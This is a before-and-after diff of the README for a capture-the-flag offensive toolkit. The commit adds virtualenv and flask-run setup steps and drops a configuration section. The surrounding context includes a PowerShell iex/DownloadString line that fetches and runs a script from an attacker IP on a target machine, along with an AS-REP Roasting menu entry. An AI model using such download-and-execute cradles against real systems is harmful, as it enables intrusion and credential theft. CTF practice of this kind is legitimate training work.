

Before and after one commit to KermitPurple96/CTF-toolkit, a Markdown page: README.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -18,7 +18,10 @@ A set of tools that can be used individually or by web interface to help resolve
 ```bash
 git clone https://github.com/KermitPurple96/CTF-toolkit
 cd CTF-toolkit
+python3 -m venv .venv
+source .venv/bin/activate
 pip install pwn flask netifaces watchdog
+flask run --host=0.0.0.0 --port=5002 --no-debugger --no-reload
 ```
 ## Usage
 
@@ -47,6 +45,5 @@ servpy
 
-
-4. Load the script on Target Machine
+3. Load the script on Target Machine
 
 For Linux
 ```bash
@@ -119,9 +116,3 @@ PS> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/re
     - ad.asrep                        : AS-REP Roasting users privilege
 
 ```
-
-
-## Configuration
-
-- On httpTempServ.py add your own into SHORTCUTS dictionary, add your own aliases pointing the file path to quickly access.
-- Make sure that the aliases for recon.sh and recon.ps1 point to the correct path in your file system.
````
Also changed, not shown: other parts of README.md (+0 -5 lines).
